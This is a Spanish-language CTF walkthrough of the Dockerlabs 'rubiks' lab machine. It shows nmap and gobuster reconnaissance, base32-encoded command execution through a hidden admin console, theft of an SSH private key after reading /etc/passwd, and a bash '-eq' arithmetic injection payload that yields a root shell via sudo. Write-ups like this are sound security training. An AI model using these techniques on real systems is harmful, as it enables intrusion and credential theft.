

Maquina "rubiks" de [Dockerlabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Sun Sep  1 22:24:03 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000015s latency).
Scanned at 2024-09-01 22:24:03 -03 for 9s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:3f:77:f8:5e:4e:89:42:4a:ce:14:3b:ac:59:05:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrfXFz4pyHxtcjrlXWm2Dry5PDT5HgtSquXhC/UIktolkH/x0IPt0a6tvePKwSbt3oKZ/f29oVgedMnzL55g+s=
|   256 b4:2a:b2:f8:4a:1b:50:09:fb:17:28:b7:29:e6:9e:6d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHxxY7fugsdx8wjNhWhOCOSrEH+NaadgL+ilg4ypJyQ+
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://rubikcube.dl/
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: 172.17.0.2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  1 22:24:12 2024 -- 1 IP address (1 host up) scanned in 8.68 seconds
```

Como vemos, el puerto `22 y 80` están abiertos. El puerto 22 está corriendo openssh y el 80 apache. También podemos ver esta línea:

```css
http-title: Did not follow redirect to http://rubikcube.dl/
```

Esto significa que tenemos un dominio, por lo que editaremos el archivo `/etc/hosts` y agregamos al final lo siguiente:

```css
<ip> rubikcube.dl
```

Ahora entramos desde el navegador:

###### Puerto 80:


Al parecer es una página de una tienda pero nada nos sirve.

Ahora haremos un poco de fuzzing web con gobuster para ver si encontramos algo:

```css
gobuster dir -u http://rubikcube.dl/ -w <wordlist> -x php,html,txt
```


Como vemos hay un directorio `/administration/`, al cual si entramos y vamos a `Configuraciones > console` la url nos cambiará a "http://rubikcube.dl/myconsole.php" pero nos dice que no existe. Podriamos poner "myconsole.php" en "/administration/" y ver si realmente existe:


# INTRUSION

Como vemos parece que podemos ejecutar comandos, el problema es que nos pide una codificación. Luego de haber estado probando un rato se me ocurrió probar `base32` y ver si así podiamos ejecutar comandos, para esto podemos usar el script basico que hice, no es obligatorio pero da comodidad.

Si ejecutamos el comando `ls -la` (obviamente en base32) veremos la siguiente salida:

```css
total 28
drwxr-xr-x 1 root root  118 Aug 30 03:28 .
drwxr-xr-x 1 root root  132 Aug 30 02:03 ..
-rwxr-xr-x 1 root root 3389 Aug 30 03:28 .id_rsa
-rw-r--r-- 1 root root 6665 Aug 30 01:34 configuration.php
drwxr-xr-x 1 root root   16 Aug 30 00:23 img
-rw-r--r-- 1 root root 5460 Aug 30 01:22 index.php
-rw-r--r-- 1 root root 3509 Aug 30 01:52 myconsole.php
-rw-r--r-- 1 root root 1825 Aug 30 00:40 styles.css
```

Como vemos hay un id_rsa, por lo que podriamos leerlo y copiarlo y también leer el `/etc/passwd` para ver con que usuario usarlo:

```css
luisillo:x:1001:1001::/home/luisillo:/bin/sh
```

Teniendo el usuario luisillo, nos copiamos el "id_rsa" y nos lo guardamos en nuestra máquina atacante, luego le damos permisos de ejecución con `chmod 600 id_rsa` y simplemente nos conectamos usando `ssh -i id_rsa luisillo@172.17.0.2`.

# ESCALADA DE PRIVILEGIOS

#### Luisillo

Una vez dentro ejecutamos `bash`. Ahora si ejecutamos un `sudo -l` veremos lo siguiente:

```css
Matching Defaults entries for luisillo on f72b6d53a48d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on f72b6d53a48d:
    (ALL) NOPASSWD: /bin/cube
```

vemos que podemos ejecutar el binario cube como root, pero si lo miramos un poco vemos que usa un "EQ comparer" en la siguiente línea:

```css
if [[ $number -eq $correct_number ]]; then
```

por lo que si buscamos un poco encontramos que podemos aprovecharlo si ejecutamos lo siguiente en el input:

```css
a[$(/bin/bash >&2)]+42
```

Fuente: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/

Una vez ejecutado ganaremos acceso root:


Gracias por leer.